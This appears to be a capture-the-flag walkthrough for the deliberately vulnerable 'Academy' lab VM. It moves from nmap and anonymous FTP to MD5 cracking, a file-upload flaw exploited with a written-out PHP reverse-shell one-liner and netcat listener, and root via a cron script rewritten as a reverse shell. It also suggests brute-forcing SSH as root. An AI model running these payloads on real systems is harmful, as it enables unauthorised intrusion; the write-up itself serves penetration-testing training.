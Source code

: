 First of all set up academy on your VM ware

![](https://i.imgur.com/sqlEL3g.png)

Now use the logs `root:tcm` and you should be logged in successfully, Once logged in you can use the command `dhclient` followed by `ip a` to check for machine ip address

![](https://i.imgur.com/oVlP40y.png)

Time to run our Nmap scan on targets, first of all directly SSH to the target using the host system to make things easier for us to interact with the Machine instead of clicking VM Ware always

![](https://i.imgur.com/cTGXvph.png)

![](https://i.imgur.com/aGx2Ruw.png)

If you have problems connecting, Make sure to set network to bridge then run `dhclient` before `ip a` 

Running our Nmap scan , Query `nmap -p- -sCV 192.168.0.108 -v --min-rate=1000 -T4 -oN nmap_academy.txt`

![](https://i.imgur.com/v6wqzFu.png)

## Enumeration

> Usually in CTF's we erase enumerating port 22/SSH out of the board, cos' we don't usually go through that route except we find a valid username and start brute forcing for passwords, But in real-world scenario, You should brute force ssh using `root` as username and seeing if the account uses a weak credential, also try to see if you can bypass detection, like trying to log in over 500 attempts without getting detected, that is a security risk you should add to your reports


**Starting with FTP** 

We have anonymous login on FTP, so let start out with that, Remember nmap told us we have `anonymous` login with a `note.txt`

![](https://i.imgur.com/SHmlC7f.png)

Checking what the note.txt has, give us this 

![](https://i.imgur.com/MRhguMj.png)

Nice !!!, `cd73502828457d15655bbd7a63fb0bc8` , looks like a password though "Learn SQL😆" , but stored in MD5, you can use `hash-identifier` to check it out in kali , soo we will be cracking it using `john-the-ripper`  

![](https://i.imgur.com/BeXT0EU.png)

We got the password which is `student` , we need to try it out somewhere so since we found port 80/HTTP , let check it out

![](https://i.imgur.com/5hsUFWn.png)

We have a default Apache web page, trying out directory bruteforce gives us `academy` and `phpmyadmin` 

![](https://i.imgur.com/jnxSiyX.png)

Checking out `/academy` we have a login page, using the credentials we got `10201321:student` we were successfully logged in

![](https://i.imgur.com/MX9LNyp.png)

Navigating the websites i found a file upload vulnerability on `/academy/my-profile.php`

![](https://i.imgur.com/ORgyyqB.png)

We can upload our PHP reverse shell file, Get one from https://www.revshells.com/ , save it in a file with the `.php` extension and upload it as an image file, but before we do that start a netcat listener with `nc -lvnp 1337` , then go ahead with uploading the PHP file 

![](https://i.imgur.com/iS3YC7v.png)

Now paste in your reverse shell payload on the execute bar, i will be using `php -r '$sock=fsockopen("192.168.0.157",1337);exec("/bin/bash <&3 >&3 2>&3");'` for my payload, after pasting these you should get a connection on your terminal

![](https://i.imgur.com/xG9ZJFD.png)

Great, we got shell back as `www-data` so we need to do privilege escalation 

![](https://i.imgur.com/BoFJmdz.png)

We will be using `Linpeas.sh` for this lab, you can transfer it to the target system by using python and wget , also make sure to grant executable permissions and run with `./linpeas.sh`

![](https://i.imgur.com/X80fXIh.png)

We found a `backup.sh` folder on the home user `grimmie` but don't have write access to the file,  let keep hunting 

![](https://i.imgur.com/v4Tg06s.png)

![](https://i.imgur.com/gDzx9tR.png)

We definitely need a way to pivot to `grimmie` cos' user `grimmie` has a file in it home directory running as cron job, so we need to pivot to `grimmie` first then root

![](https://i.imgur.com/BaM9Dzy.png)

Looks like we have stored passwords somewhere, With this we can definitely escalate to `grimmie`

![](https://i.imgur.com/AEgi8Jd.png)

Using the find command i looked for where this password is located inside a file `find /var -type f -exec grep -l "My_V3ryS3cur3_P4ss" {} \;` , it was located under the `/var/www/html/academy/admin/includes/config.php` file

![](https://i.imgur.com/kEPayI7.png)

![](https://i.imgur.com/RK5Jhcp.png)

We can login using SSH, once logged in we can escalate privileges using the `backup.sh` file by editing it

![](https://i.imgur.com/MNkh58n.png)

![](https://i.imgur.com/hS6S34A.png)

We can see that this file is removing a zipped backup file and then somehow unzipping it to `/../../../../include` then granting it `r-w-x` execute permissions, let edit this file, i would replace all this with a bash reverse shell , so anytime the cron job runs it give me back a shell as `root`

![](https://i.imgur.com/24ZRCpY.png)

We got root successfully 🥳

![](https://i.imgur.com/ULfumcp.png)







